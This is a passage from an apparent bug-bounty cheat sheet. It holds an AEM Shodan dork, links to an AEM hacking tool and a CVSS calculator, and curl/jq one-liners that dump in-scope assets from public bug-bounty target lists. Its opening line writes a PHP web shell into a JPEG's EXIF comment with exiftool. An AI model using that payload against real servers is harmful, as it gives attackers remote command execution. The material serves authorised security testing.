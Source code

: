       ```php
      exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' pic.jpg
      ```



#### **Adobe Experience Manager (AEM) Configuration Testing**

Shodan Dork:

`http.component:"Adobe Experience Manager"`

Resources\
[AEM Hacker Tool](https://github.com/0ang3el/aem-hacker)\
[SlideShare presentation on AEM by 0ang3el](https://www.slideshare.net/0ang3el/aem-hacker-approaching-adobe-experience-manager-webapps-in-bug-bounty-programs)

### Reporting

[CVSS 3.1 Calculator](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator)
{% endtab %}

{% tab title="One-Liners" %}
## Recon

**Dump In-scope Assets from BBPs using repo from** [**@arkadiyt**](https://github.com/arkadiyt/bounty-targets-data)

**HackerOne Programs**

```bash
curl -sL https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/main/data/hackerone_data.json | jq -r '.[].targets.in_scope[] | [.asset_identifier, .asset_type] | @tsv'
```

**BugCrowd Programs**

```bash
curl -sL https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/main/data/bugcrowd_data.json | jq -r '.[].targets.in_scope[] | [.target, .type] | @tsv'
```

**Intigriti Programs**

```bash
curl -sL https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/main/data/intigriti_data.json | jq -r '.[].targets.in_scope[] | [.endpoint, .type] | @tsv'
```

**YesWeHack Programs**

```bash
curl -sL https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/main/data/yeswehack_data.json | jq -r '.[].targets.in_scope[] | [.target, .type] | @tsv'
```

**HackenProof Programs**
